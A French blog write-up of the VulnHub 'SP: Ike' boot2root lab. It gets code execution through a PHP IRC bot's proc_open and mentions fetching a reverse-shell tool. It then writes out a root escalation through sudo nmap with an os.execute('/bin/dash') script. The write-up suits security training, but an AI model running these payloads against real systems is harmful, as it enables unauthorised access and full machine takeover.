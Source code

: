 # Solution du CTF SP: Ike de VulnHub

[SP: ike](https://www.vulnhub.com/entry/sp-ike-v101,275/) est un CTF de type boot2root proposé sur VulnHub. La description est la suivante :

> Ike is a servant of something which also starts with "I" and has only three letters.

Hmm moi j'imagine plutôt IKE donc VPN mais on voit tout de suite que c'est plutôt IRC :

```
Nmap scan report for 192.168.56.76
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
6667/tcp open  irc     InspIRCd
| irc-info: 
|   server: irc.ike.local
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 2
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.1
|_  error: Closing link: (nmap@192.168.56.1) [Client exited]
```

On a un serveur *InspIRCd*. Aucun exploit n'est présent pour ce logiciel sur exploit-db comme quoi soit il est bien conçu soit il n'intéresse personne :D

Sur ma machine il ne me reste que Pidgin comme client supportant IRC alors on fera avec. Je créé le compte en spécifiant l'adresse IP du serveur puis je vais sur *Comptes > devloop@192.168.56.76 > voir le message du jour* qui m'affiche les infos suivantes :

```
- #############################################
- #               ####  #  #  ####            #     
- #               #  #  #  #  #  #            # 
- #               ###   ####  ###             #
- #               #     #  #  #               #
- #               #     #  #  #               #
- #############################################
- 
- Welcome to the PHP community IRC server where you can get help with your PHP code. 
- Also feel free to talk and share information about PHP in general. 
- Join the main channel at #php for a friendly chat!
- 
- Rules:
- * Don't ask to ask, just ask.
- * Don't paste code directly in the chat, use pastebin.
- * Don't ask the same question again if no one answers.
- * Don't flood the channel in general.
- * Run PHP commands through the PHP bot with !php <command>
- * Please don't try to abuse the bot.
- * Behave like an adult.
- 
- #############################################
- #############################################

```

Avec un client plus traditionnel j'aurais eu le message directement.

Il y a donc un bot sur le chan `#php`. On va causer un peu avec lui :

![VulnHub SP Ike PHP IRC bot](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/sp_ike/irc_phpbot.png)

`proc_open` est donc notre porte d'entrée. Je peux récupérer l'environnement qui en dit suffisemment long sur le compte qui fait tourner le bot :

```php
 !php proc_open("env",array(),$something);
```

```bash
HOME=/home/ike
LOGNAME=ike
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/ike
```

Je rappatrie un reverse-sshx64 dans le dossier courant puis l'exécute pour avoir mon shell et tunnel SSH.

```bash
ike@ike:/home/ike$ cat flag.txt 
cdca0db3c1d9a7290
ike@ike:/home/ike$ sudo -l
Matching Defaults entries for ike on ike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ike may run the following commands on ike:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/nmap
```

Un coup d'oeil à GTFObins plus tard :

```bash
ike@ike:/home/ike$ echo 'os.execute("/bin/dash")' > myscript 
ike@ike:/home/ike$ sudo /usr/bin/nmap --script=myscript

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-20 15:08 CET
NSE: Warning: Loading 'myscript' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # flag.txt
# d8f8254074369b6
```

Dans l'output çi-dessus on ne voit pas les commandes que je tape car je suppose que stdin n'est pas répété mais il s'agit des commandes `id`, `ls` et `cat`.

*Publié le 20 décembre 2022*
